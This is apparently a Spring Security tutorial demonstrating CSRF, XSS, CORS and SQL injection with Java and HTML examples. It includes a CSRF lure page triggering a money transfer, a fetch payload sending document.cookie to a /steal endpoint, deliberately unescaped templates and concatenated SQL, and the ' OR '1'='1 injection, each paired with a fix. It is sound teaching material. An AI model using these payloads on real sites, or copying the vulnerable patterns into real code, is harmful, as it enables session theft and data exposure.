







---

## Common Attacks

Before we start Spring Security, lets understand what are some common attacks:

### 1. CSRF (Cross-Site Request Forgery)

- User is already authenticated to a site.
- CSRF attack tricks a browser into making unwanted request to a site where user is already authenticated.
- Applicable where state and session is managed.

In below demo, made authentication mandatory for all endpoints but also using session (stateful) based authentication.

**SecurityConfig.java**

```java
@Configuration
@EnableWebSecurity
public class SecurityConfig {

    @Bean
    public SecurityFilterChain securityFilterChain(HttpSecurity http) throws Exception {

        http.sessionManagement(session ->
                session.sessionCreationPolicy(SessionCreationPolicy.IF_REQUIRED))
            .authorizeHttpRequests(auth -> auth.anyRequest().authenticated())
            .formLogin(Customizer.withDefaults());

        return http.build();
    }
}
```

**UserController.java (CSRF demo)**

```java
@RestController
public class UserController {

    @GetMapping("/transfer")
    public String transferMoney(@RequestParam String amount, @RequestParam String to) {
        return "Transferred $" + amount + " to " + to;
    }

    @GetMapping("/")
    public String hello() {
        return "hello";
    }
}
```

**Step1: make user Authenticated on a server**



Once logged in, server sets a session cookie:



**Step2: send some malicious link to this user, who is authenticated**

```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>CSRF Attack Demo</title>
</head>
<body>

<h2>Click Below to Claim Your Reward!</h2>

<a href="http://localhost:8080/transfer?amount=1000&to=attacker">
<button>Claim My Money</button>
</a>

</body>
</html>
```



As soon as user clicked on "claim my Money" button, an unwanted operation is executed and browser appends the Cookies Session too:



**How to get protected from CSRF attack:**

By using CSRF Token, this ensures that request originates from the legitimate source. As authenticate forms or website only append the CSRF token in the request. Which server can used to validate with the token created at the time of HTTP Session creation.


### 2. XSS (Cross-Site Scripting)

- It allows attacker to put malicious script into web page viewed by other users.
- Like comments section page.
- Commonly used for stealing the session or deform the website.

For demo purpose, I am creating:
- `GET "/xss"` endpoint, which loads all the comments. It returns "xss", since it's a controller class (not RestController) so, by-default it will try to look for "xss.html" file and try to render it.
- `POST "/comment"` endpoint, which is not sanitizing any user input and simply stores this comment say in DB and then displays it during GET call.

So, if attacker put malicious script using this POST request, then during every GET call, this script will run for all the users who will make a call.

**TestXSS.java**

```java
@Controller
public class TestXSS {

    private final List<String> comments = new ArrayList<>();

    @GetMapping("/xss")
    public String showComments(Model model) {
        model.addAttribute("comments", comments);
        return "xss"; // Loads xss.html
    }

    @PostMapping("/comment")
    public String addComment(@RequestParam String comment) {
        comments.add(comment);
        return "redirect:/xss";
    }
}
```

**Src/main/resources/templates/Xss.html**

```html
<!DOCTYPE html>
<html xmlns:th="http://www.w3.org/1999/xhtml">
<head>
<title>XSS Demo</title>
</head>
<body>

<h2>Leave a Comment</h2>

<form action="/comment" method="post">
<input type="text" name="comment" required>
<button type="submit">Submit</button>
</form>

<h3>Comments:</h3>
<ul>
<!-- Comments are directly injected without sanitization -->
<li th:utext="${comment}" th:each="comment : ${comments}"></li>
</ul>

</body>
</html>
```



Now, if I insert `<script>alert("XSS Attack")</script>` and click submit, this script will get stored say in DB, and when GET api is invoked, it fetched this malicious comment from DB and returned in response and browser executed it.



Now assume, what if I added:

```html
<script>
fetch('http://localhost:8080/steal?cookie=' + document.cookie);
</script>
```

Then any user, loads this comment section page, that's user Cookie will be sent to attacker url.

And this cookie only hold JSESSIONID, which attacker can use it to perform unwanted operations on their active sessions.

**How to get protected from XSS attack:**
- By proper escaping user input (converting special character like `<` to `&lt;`)
- By properly validating data before rendering.

### 3. CORS (Cross-Origin Resource Sharing)

Its not an attack but more of a security feature that restrict web pages from making request to different origin, unless allowed by the server.

Different origin = protocol + domain + port

For example:
```
Client: https://localhost:8080
Server: http://localhost:8080
```
Different protocol, so its considered as different origin and by-default if client tries to call the server, CORS will block this.

SERVER has to allow the request from "https://localhost:8080"

Similarly:
```
Client: https://localhost:9090
Server: https://localhost:8080
```
and
```
Client: https://sub.localhost:9090
Server: https://localhost:9090
```

So, whenever there is a call between different origin, server has to allow: By setting "Access-Control-Allow-Origin" and other header to allow the cross-origin request.

**SecurityConfig.java (with CORS)**

```java
@Configuration
@EnableWebSecurity
public class SecurityConfig {

    @Bean
    public SecurityFilterChain securityFilterChain(HttpSecurity http) throws Exception {

        http.sessionManagement(session ->
                session.sessionCreationPolicy(SessionCreationPolicy.IF_REQUIRED))
            .authorizeHttpRequests(auth -> auth.anyRequest().authenticated())
            .cors(cors -> cors.configurationSource(request -> {
                CorsConfiguration config = new CorsConfiguration();
                config.setAllowedOrigins(List.of("https://sub.localhost:9090")); // Allow frontend
                config.setAllowedMethods(List.of("GET", "POST", "PUT", "DELETE"));
                config.setAllowedHeaders(List.of("Authorization", "Content-Type"));
                config.setAllowCredentials(true);
                return config;
            }))
            .formLogin(Customizer.withDefaults());

        return http.build();
    }
}
```

### 4. SQL Injection

In this attack, attacker manipulates SQL query by inserting malicious input into the user field.

**UserController.java (find user)**

```java
@GetMapping("/find")
public List<UserDetails> findUser(@RequestParam String name) {
    return userDetailsService.findByName(name);
}
```

**UserDetailsService.java (unsafe query)**

```java
public List<UserDetails> findByName(String name) {

    String sql = "SELECT * FROM user_details WHERE user_name = '" + name + "'";
    return entityManager.createNativeQuery(sql, UserDetails.class)
            .getResultList();
}
```

Attacker calls `localhost:8080/find?name=' OR '1' = '1` — the injected `OR '1'='1'` always evaluates true, so the query returns ALL rows instead of matching a specific user:



**How to get protected from SQL Injection attack:**

By parameterized Query

**UserDetailsService.java (safe query)**

```java
public List<UserDetails> findByName(String name) {

    String sql = "SELECT * FROM user_details WHERE user_name = :name";
    return entityManager.createNativeQuery(sql, UserDetails.class)
            .setParameter("name", name)
            .getResultList();
}
```

With parameterized query, the same injection attempt is treated as a literal string value (not SQL), so it safely returns no matches:

